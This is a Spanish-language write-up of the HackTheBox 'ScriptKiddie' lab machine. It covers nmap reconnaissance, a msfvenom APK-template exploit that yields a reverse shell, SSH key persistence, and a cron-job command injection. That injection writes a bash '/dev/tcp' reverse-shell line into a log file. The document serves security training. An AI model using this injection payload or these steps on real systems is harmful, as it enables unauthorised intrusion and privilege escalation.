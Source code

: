 ```yaml
---
title: HackTheBox ScriptKiddie
date: 2021-06-16 12:00:00 -0400
image: 
  path: https://raw.githubusercontent.com/s4yhii/s4yhii.github.io/master/assets/images/htb/scriptkiddie/banner.jpg
  height: 1100
  width: 500
categories: [HTB Writeups, Linux Easy]
tags: [cronjobs, payload, mestasploit, suid, exploit, msfvenom]
---
```


***

**Machine IP**: 10.10.10.226

**DATE**  : 16/06/2021

***


## Reconocimiento
Primero hacemos un escaneo de puertos para saber cuales están abiertos y conocer sus servicios correspondientes.

## Nmap 

```bash
┌──(s4yhii㉿kali)-[~]
└─$ nmap -p- --open -T5 -v -n 10.10.10.226                 
Starting Nmap 7.91 ( https://nmap.org ) at 2021-06-15 20:45 EDT
Initiating Ping Scan at 20:45
Scanning 10.10.10.226 [2 ports]
Completed Ping Scan at 20:45, 0.12s elapsed (1 total hosts)
Initiating Connect Scan at 20:45
Scanning 10.10.10.226 [65535 ports]
Discovered open port 22/tcp on 10.10.10.226
Stats: 0:00:20 elapsed; 0 hosts completed (1 up), 1 undergoing Connect Scan
Connect Scan Timing: About 29.62% done; ETC: 20:46 (0:00:48 remaining)
Discovered open port 5000/tcp on 10.10.10.226
Completed Connect Scan at 20:46, 60.38s elapsed (65535 total ports)
Nmap scan report for 10.10.10.226
Host is up (0.12s latency).
Not shown: 52711 closed ports, 12822 filtered ports
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT     STATE SERVICE
22/tcp   open  ssh
5000/tcp open  upnp

Read data files from: /usr/bin/../share/nmap
Nmap done: 1 IP address (1 host up) scanned in 60.62 seconds
```

Como vemos tiene 2 puertos abiertos el `22` y el `5000` uno con el servicio `ssh` y el otro con el servicio de `Plug and Play`, que se usa para conectar impresoras, dispositivos bluetooh, etc.

Analizando las versiones de los puertos abiertos encontramos lo siguiente.

```bash
┌──(s4yhii㉿kali)-[~]
└─$ nmap -sC -sV -n -p22,5000 10.10.10.226
Starting Nmap 7.91 ( https://nmap.org ) at 2021-06-15 20:55 EDT
Nmap scan report for 10.10.10.226
Host is up (0.12s latency).

PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 3c:65:6b:c2:df:b9:9d:62:74:27:a7:b8:a9:d3:25:2c (RSA)
|   256 b9:a1:78:5d:3c:1b:25:e0:3c:ef:67:8d:71:d3:a3:ec (ECDSA)
|_  256 8b:cf:41:82:c6:ac:ef:91:80:37:7c:c9:45:11:e8:43 (ED25519)
5000/tcp open  http    Werkzeug httpd 0.16.1 (Python 3.8.5)
|_http-title: k1d'5 h4ck3r t00l5
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 11.78 seconds
```

Econtramos que hay un `servidor web` corriendo en el puerto 5000 con la cabecera `k1d'5 h4ck3r t00l5`, lo abrimos en el navegador.

![](https://raw.githubusercontent.com/s4yhii/s4yhii.github.io/master/assets/images/htb/scriptkiddie/web.png)

Luego de analizar estas 3 funcionalidades me di cuenta que la parte de `payloads` acepta un archivo , el cual podríamos generar con `msfvenom`, por eso buscamos en exploits `msfvenom` y nos genera solo un resultado.

![](https://raw.githubusercontent.com/s4yhii/s4yhii.github.io/master/assets/images/htb/scriptkiddie/venom.png)

Abrimos `mestasploit` para generar el apk con el payload, configuramos `LPORT` y `LHOST` con nuestra ip y el puerto asignado y nos genera un apk ,el cual procederemos a subir a la web como template.

![](https://raw.githubusercontent.com/s4yhii/s4yhii.github.io/master/assets/images/htb/scriptkiddie/apk.png)

Una vez generado subimos a la web y escribimos la ip de nuestra maquina y como OS seleccionamos android, ya que es una apk, luego ponemos en escucha nuestra maquina con el comando `nc -nlvp 4444` y le damos a generar.

Automáticamente se nos abrirá una reverse shell con el usuario kid.

![](https://raw.githubusercontent.com/s4yhii/s4yhii.github.io/master/assets/images/htb/scriptkiddie/reverse.png)

Luego como tenemos acceso de escritura de la carpeta `.ssh`, añadiremos nuestro `id_rsa` a la carpeta de `known_hosts` para conectarnos directamente desde nuestra maquina via `ssh`.

![](https://raw.githubusercontent.com/s4yhii/s4yhii.github.io/master/assets/images/htb/scriptkiddie/ssh.png)

Como vemos ahora tenemos una shell más interactiva y tenemos acceso al `user.txt`.

![](https://raw.githubusercontent.com/s4yhii/s4yhii.github.io/master/assets/images/htb/scriptkiddie/usertxt.png)

## Escalamiento de privilegios

Como podemos ver este script es ejecutado con permisos pwn, y nos dice que abrirá el archivo hackers para hacer un nmap. 
Al igual que la maquina bashed, se aprovecha de una tarea automática `cron`, que es ejecutado como usuario pwn, pero el log `hackers` se puede editar por `kid`, entonces esa será nuestra idea, cargaremos el archivo `hackers` con una `reverse shell bash`.



```bash
  echo "  ;/bin/bash -c 'bash -i >& /dev/tcp/10.10.14.186/4446 0>&1' #" > hackers
```

Dejamos 2 espacios, ya que en el script de `scanlosers` al momento de tomar el texto toma a partir del 3er espacio porque hay un `cut -f3-`, que tomaria los paramatros a partir del 3ero. 

![](https://raw.githubusercontent.com/s4yhii/s4yhii.github.io/master/assets/images/htb/scriptkiddie/pwn.png)

Como vemos obtuvimos una shell como pwn gracias al script `scanlosers` y ahora enumeraremos con sudo -l los binarios con permisos `SUID`

```bash
sudo -l
```

![](https://raw.githubusercontent.com/s4yhii/s4yhii.github.io/master/assets/images/htb/scriptkiddie/suid.png)

Como vemos metasploit tiene permisos `SUID` para ejecutarse como `root`, entonces lo ejecutamos con sudo msfconsole y bingo obtenemos sesión como root y podremos ver el `root.txt`

```bash
sudo msfconsole
```

![](https://raw.githubusercontent.com/s4yhii/s4yhii.github.io/master/assets/images/htb/scriptkiddie/roottxt.png)

!Gracias por leer.